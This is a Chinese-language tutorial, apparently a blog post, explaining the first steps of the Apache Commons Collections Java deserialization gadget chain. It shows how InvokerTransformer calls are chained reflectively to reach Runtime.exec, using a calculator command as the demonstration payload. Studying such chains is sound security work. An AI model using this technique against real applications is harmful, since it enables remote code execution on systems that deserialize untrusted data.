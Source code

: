## 初识 Transformer 类

在开始之前，先要了解一下 `Transformer` 这个类。其实这是一个接口。我们打开这个接口文件，可以看到代码只有一行:

```java
public Object transform(Object input);
```

根据注释，可以知道 `Transformer` 这个接口的实现类都有一个核心方法：`transform(Object)` 。它的作用就是，传入一个对象，经过一番处理，然后传出另一个对象。

通过 IDEA 的查找实现类功能，我们发现了这个 `InvokerTransformer` 类。它的 `transform` 方法长这个样子:

```java
public Object transform(Object input) {
    if (input == null) {
        return null;
    }
    try {
        Class cls = input.getClass();
        Method method = cls.getMethod(iMethodName, iParamTypes);
        return method.invoke(input, iArgs);
    // 核心代码到这里就结束了
```

可以看到，这个 `InvokerTransformer` 类里的 `transform` 方法长得就像是后门代码一样，可以执行任意方法。这是个典型的危险方法，也就是我们攻击链的终点。

可以预见的是，CC 链之所以有那么多，多半是和这个 `InvokerTransformer` 这个类可以执行任意方法有关。

## 构造危险 Transformer 对象

我们希望通过 `InvokerTransformer.transform()` 方法来执行危险方法。但是但这一个类肯定还不够。没有什么内部方法莫名其妙地调用这个危险的方法。所以我们需要慢慢构造一个危险的方法。

首先先来看一下一条简单的危险方法如何使用：

```java
Runtime.getRuntime().exec("kcalc");
```

这一行代码，可以执行任意系统命令。也就是说，我调用了 `kcalc` 这个命令，我的电脑上就会弹出一个计算器。如果你是 Windows 电脑，可以把这个字符串换成 `calc` 试试。

但是一行代码还不够，他需要能被反序列化，因此我们需要把 `Runtime` 这个类变成 `Runtime.class`，因为 `Class` 类是可以反序列化的。因此这一行代码就被改写成这样了：

```java
Class c = Runtime.class;
Method getRuntimeMethod = c.getMethod("getRuntime", null);
Runtime r = (Runtime) getRuntimeMethod.invoke(null, null);
r.exec("kcalc");
```

可以看见，我们使用 `c.getMethod` 方法获得了 `getRuntimeMethod` 方法，利用它，我们获取到了 `Runtime` 对象，然后执行了 `exec` 方法。而 `Runtime.class` 本身是可序列化的。

然后我们需要利用 `InvokerTransformer` 类把上面这些步骤改写。因为这个类可以执行任意方法，所以每一句话都可以改写成 `InvokerTransformer` 的形式：

```java
// 第一步，利用 Runtime.class 通过 InvokerTransformer 调用 c.getMethod("getRuntime", null)来获取其中的 getRuntime 方法
Method getRuntimeMethod = (Method) new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}).transform(Runtime.class);
// 第二步，利用上一步，调用 getRuntimeMethod.invoke(null, null) 来获取 Runtime 对象
Runtime r = (Runtime) new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}).transform(getRuntimeMethod);
// 第三步，通过调用 r.exec("kcalc") 来调用危险代码
new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"kcalc"}).transform(r);
```
